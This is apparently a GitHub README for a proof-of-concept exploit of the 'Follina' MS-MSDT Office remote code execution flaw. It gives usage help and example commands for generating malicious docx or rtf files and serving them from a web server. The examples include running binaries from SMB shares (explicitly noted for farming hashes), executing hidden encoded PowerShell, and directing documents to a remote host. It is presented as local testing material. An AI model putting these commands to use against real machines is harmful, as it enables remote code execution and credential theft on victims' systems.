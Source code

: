 # 'Follina' MS-MSDT n-day Microsoft Office RCE

Quick POC to replicate the 'Follina' Office RCE vulnerability for local testing purposes. Running the script will generate a `clickme.docx` (or `clickme.rtf`) payload file in your current working directory, and start a web server with the payload file (`www/exploit.html`). The payload and web server parameters are configurable (see help and examples).

> ⚠ DO NOT USE IN PRODUCTION LEST YOU BE REGARDED A DUMMY

## Usage:

```
$ python .\follina.py -h
usage: follina.py [-h] -m {command,binary} [-b BINARY] [-c COMMAND] -t {rtf,docx} [-u URL] [-H HOST] [-P PORT]

options:
  -h, --help            show this help message and exit

Required Arguments:
  -m {command,binary}, --mode {command,binary}
                        Execution mode, can be "binary" to load a (remote) binary, or "command" to run an encoded PS command

Binary Execution Arguments:
  -b BINARY, --binary BINARY
                        The full path of the binary to run. Can be local or remote from an SMB share

Command Execution Arguments:
  -c COMMAND, --command COMMAND
                        The encoded command to execute in "command" mode

Optional Arguments:
  -t {rtf,docx}, --type {rtf,docx}
                        The type of payload to use, can be "docx" or "rtf"
  -u URL, --url URL     The hostname or IP address where the generated document should retrieve your payload, defaults to "localhost". Disables web server if custom URL scheme or path are specified
  -H HOST, --host HOST  The interface for the web server to listen on, defaults to all interfaces (0.0.0.0)
  -P PORT, --port PORT  The port to run the HTTP server on, defaults to 80
```

## Examples:

```
# Execute a local binary
python .\follina.py -t docx -m binary -b \windows\system32\calc.exe

# On linux you may have to escape backslashes
python .\follina.py -t rtf -m binary -b \\windows\\system32\\calc.exe

# Execute a binary from a file share (can be used to farm hashes 👀)
python .\follina.py -t docx -m binary -b \\localhost\c$\windows\system32\calc.exe

# Execute an arbitrary powershell command
python .\follina.py -t rtf -m command -c "Start-Process c:\windows\system32\cmd.exe -WindowStyle hidden -ArgumentList '/c echo owned > c:\users\public\owned.txt'"

# Run the web server on the default interface (all interfaces, 0.0.0.0), but tell the malicious document to retrieve it at http://1.2.3.4/exploit.html
python .\follina.py -t docx -m binary -b \windows\system32\calc.exe -u 1.2.3.4

# Only run the webserver on localhost, on port 8080 instead of 80
python .\follina.py -t rtf -m binary -b \windows\system32\calc.exe -H 127.0.0.1 -P 8080
```

## Cool peeps
